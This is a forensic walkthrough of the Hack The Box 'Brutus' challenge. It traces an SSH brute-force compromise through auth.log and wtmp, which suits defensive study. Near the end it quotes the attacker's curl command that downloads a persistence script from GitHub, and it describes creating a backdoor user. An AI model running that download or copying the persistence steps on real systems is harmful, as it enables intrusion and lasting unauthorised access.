

# Brutus

## Investigation process:

The first step is to analyze the provided assets.

By examining the `auth.log` file, I identified indicators of a brute-force attack. There were many failed login attempts within a short period, which led me to determine that the attacker's IP address is `65.2.161.68`:

After reviewing more logs, I confirmed that the brute-force attack was successful and that the attacker gained access to the `root` account on the server:

By examining the timestamps, I noticed that the attacker manually entered the credentials at `06:32:44`, after obtaining them using an automated tool:

However, I needed to determine the exact time when the attacker had an interactive terminal connected, not just when the password was accepted. To do that, I checked the `wtmp` output by running `cat wtmp.out | grep 65.2.161.68` (this displays the content of `wtmp.out` and searches for lines containing the IP `65.2.161.68`):

Something important to note here is that I am located in the **UTC-5** timezone, which is a **5-hour difference** from the Hack The Box logs, which use **UTC**. Therefore, the correct answer is `2024-03-06 06:32:45`.

To determine the session number, I checked the line following the `open session` log entry and found that the session number is `37`:

To find the new user the attacker added as part of their persistence strategy, I searched for the keywords `useradd`, `usermod`, and `groupadd`, and I found:

The logs clearly show the creation of the user `cyberjunkie`.

Next, to determine the MITRE ATT&CK sub-technique ID used, I browsed to the [MITRE ATT&CK Framework website](https://attack.mitre.org) and navigated to **Matrices => Enterprise** to locate the ID of the tactic used by the attacker. I then looked under **Persistence** and selected **Create Account** (ID T1136). Under the sub-techniques of **Create Account**, I found **Local Account**, which is the technique being used, with the ID `T1136.001`.

Now, to check the time the attacker's first SSH session ended, I reviewed the `auth.log` and looked for `session 37`, as `37` is the session ID found earlier. The session was closed at `06:37:24`.

Looking a few lines after, we see two clear logs indicating the execution of `sudo` commands:

These logs show that the attacker downloaded a script from a GitHub repository. The command used was `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`. This indicates that the attacker attempted to deploy additional tools on the victim machine.

## Conclusion:

The analysis confirmed a successful brute-force attack against the server, resulting in a root access from the IP `65.2.161.68`. The attacker established an interactive session, created a new user to maintain persistence and attempted to deploy additional tools.